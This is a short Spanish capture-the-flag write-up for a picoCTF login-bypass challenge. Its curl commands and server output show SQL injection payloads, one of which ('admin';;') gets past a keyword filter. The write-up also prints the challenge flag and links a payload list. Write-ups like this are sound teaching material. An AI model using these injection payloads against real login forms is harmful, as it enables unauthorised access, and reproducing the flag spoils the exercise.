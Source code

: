 ## Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Solución
```bash
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin&password=admin&debug=1"
<pre>username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
</pre><h1>Login failed.<
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=' or 1=1;&passw
ord=admin&debug=1"
<pre>username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'
</pre><h1>SQLi detected.</h1>root@DESKTOP-8T8TJ1H:~#
root@DESKTOP-8T8TJ1H:~# curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';;&passwo
rd=admin&debug=1"
<pre>username: admin';;
password: admin
SQL query: SELECT * FROM users WHERE name='admin';;' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>root@DESKTOP-8T8TJ1H:~#
root@DESKTOP-8T8TJ1H:~#
```
## Notas
al ingresar como usuario admin'; lo que hace es que busca si hay un usuario llamado admin, y cierra ahi la consulta, por lo tanto no busca la contraseña, solamente busca un usuario y si existe da el acceso.

## Referencias
https://github.com/payloadbox/sql-injection-payload-list

